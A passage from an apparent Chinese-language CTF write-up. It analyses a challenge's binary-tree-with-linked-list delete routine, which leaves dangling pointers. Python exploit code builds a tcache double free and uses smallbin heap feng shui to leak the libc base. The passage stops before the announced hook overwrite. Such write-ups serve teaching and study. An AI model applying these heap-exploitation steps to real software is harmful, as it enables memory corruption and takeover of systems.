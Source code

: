 插入：
- 按key的中序二叉树插入节点，设置父节点的lnext/rnext和子节点的parent
- 假如对应key的节点已经被插入，则就地插入这个节点对应单链表的尾节点，不设置二叉树相关节点
- 插入节点时，会把指针置空。

删除：
- 如果对应key的同key单链表超过一个元素，则把这个元素的lnext,rnext转移给单链表下一个节点，同时free这个节点和对应buf。（**此时原本父节点仍然指向那个被移除的节点，新节点则仍然没有设置父节点**）
- 如果对应key没有左子树/右子树，则直接free掉，子树转移给父节点。
- 如果左右子树都有，那么：
  - 找出右子树的最左子节点（key最小的节点），称为节点B
  - 把B节点的key, buf属性交给这个节点
  - 原本节点的buf删除
  - 把B节点删除（**别忘记B节点是右子树的节点**）
- 所有移除都没有将指针置空（**悬垂指针，并且还被父节点指着**）

因此我们发现，删除的函数有大问题。虽然中序二叉树部分功能正常，但是对于单链表部分的处理则是好像管了，但是只管了一点，如管。这个parent的问题就导致很容易构造一个UAF/double free出来：

```py
def tcache_doublefree():
    insert(2, 0x18, b"\n")
    insert(1, 0x18, b"\n")
    insert(3, 0x18, b"\n") # this is victim
    insert(3, 0x18, b"\n") # this (and its children) would lost contact after double free
    remove(3)
    # If you malloc victim back, this would be a UAF, 
    # else would be a double free
    remove(2)
```

之后我们要实现两件事：泄漏地址，打hook。

先说泄露地址。这个题的show本身没有越界，所以最理想的状态是风水一个LIBC地址到堆上，让包含这个地址的块的被一个buf块拿走。可以造一个smallbin来做这件事。

```py
# build a detached tree
insert(30, 0x18, b'\n')
insert(20, 0x18, b'\n')
insert(40, 0x38, b'\n')
insert(40, 0x18, b'\n')

insert(15, 0x428, b'\n')
insert(21, 0x18, b'\n')
remove(15)
# tcache40: 1
insert(22, 0x3e8, b'\n')
# tcache40: 0, smallbin?

remove(40)
# tcache=2, smallbin=1
insert(23, 0x78, b'\n')
# tcache=1, smallbin=1
insert(15, 0x38, b'\n')
# now smallbin is allocated to a content block
remove(30)
# do a double free, now tcache=2, 2nd freed in control
libc_leak = show(15)
print(libc_leak)

SMALL_BIN_LEAK = u64(libc_leak[8:16])
# offset from debug
SMALL_BIN_OFFSET = 0x7f46efcb8c10 - 0x7f46efaee000 + 0x22000
LIBC = SMALL_BIN_LEAK - SMALL_BIN_OFFSET
print(f"{LIBC = :x}")
```
